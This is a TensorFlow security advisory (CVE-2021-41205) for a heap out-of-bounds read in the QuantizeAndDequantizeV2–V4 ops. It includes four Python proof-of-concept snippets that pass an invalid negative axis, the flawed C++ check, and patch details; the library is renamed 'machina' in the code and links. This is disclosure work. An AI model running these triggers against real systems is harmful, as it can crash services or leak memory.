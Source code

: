 ## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/machina/machina/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/machina/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import machina as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import machina as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import machina as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import machina as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

In all of these cases, `axis` is a negative value different than the special
value used for optional/unknown dimensions (i.e., -1). However, the code ignores
the occurrences of these values:

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/machina/machina/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
